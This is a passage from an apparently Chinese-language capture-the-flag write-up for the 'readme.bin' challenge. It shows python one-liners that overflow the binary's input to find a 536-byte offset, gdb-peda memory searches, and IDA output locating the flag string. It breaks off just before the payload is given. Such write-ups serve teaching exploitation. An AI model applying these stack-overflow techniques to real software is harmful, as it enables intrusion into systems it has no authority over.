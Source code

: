  ```java 
  pwn@pwn-PC:~/Desktop$ python -c 'print "A"*0x128+"\n"'|./readme.bin
Hello!
What's your name? Nice to meet you, AAAAAAAA...
Please overwrite the flag: Thank you, bye!
*** stack smashing detected ***: ./readme.bin terminated

pwn@pwn-PC:~/Desktop$ python -c 'print "A"*535+"\n"'|./readme.bin
Hello!
What's your name? Nice to meet you, AAAAAAAA...
Please overwrite the flag: Thank you, bye!
*** stack smashing detected ***: ./readme.bin terminated

pwn@pwn-PC:~/Desktop$ python -c 'print "A"*536+"\n"'|./readme.bin
Hello!
What's your name? Nice to meet you, AAAAAAAA...
Please overwrite the flag: Thank you, bye!
*** stack smashing detected ***:   terminated


  ``` 
  
因此offset = 536。为了做题的效率，不可能去一个一个尝试，如下： 
 
 ```java 
  gdb-peda$ find /home
Searching for '/home' in: None ranges
Found 5 results, display max 5 items:
[stack] : 0x7fffffffd0c8 ("/home/pwn/Desktop/readme.bin")
[stack] : 0x7fffffffec71 ("/home/pwn/Desktop")
[stack] : 0x7fffffffec91 ("/home/pwn")
[stack] : 0x7fffffffef29 ("/home/pwn/.Xauthority")
[stack] : 0x7fffffffefdb ("/home/pwn/Desktop/readme.bin")
gdb-peda$ find 0x7fffffffd0c8
Searching for '0x7fffffffd0c8' in: None ranges
Found 2 results, display max 2 items:
   libc : 0x7ffff7dd43b8 --> 0x7fffffffd0c8 ("/home/pwn/Desktop/readme.bin")
[stack] : 0x7fffffffcde8 --> 0x7fffffffd0c8 ("/home/pwn/Desktop/readme.bin")
gdb-peda$ distance $rsp 0x7fffffffcde8
From 0x7fffffffcbd0 to 0x7fffffffcde8: 536 bytes, 134 dwords
这个计算距离只是特例，最好是按照上一部分例子中的方法来计算，下断点，distance 地址1 地址2.


  ``` 
  
可以在IDA下发现.data段的变量 
 
 ```java 
  .data:0000000000600D20 byte_600D20     db 33h                  ; DATA XREF: sub_4007E0+6E↑w
.data:0000000000600D21 a2c3Theserverha db '2C3_TheServerHasTheFlagHere...',0


  ``` 
  
只需要将此变量进行显示即可，于是构造payload： 
 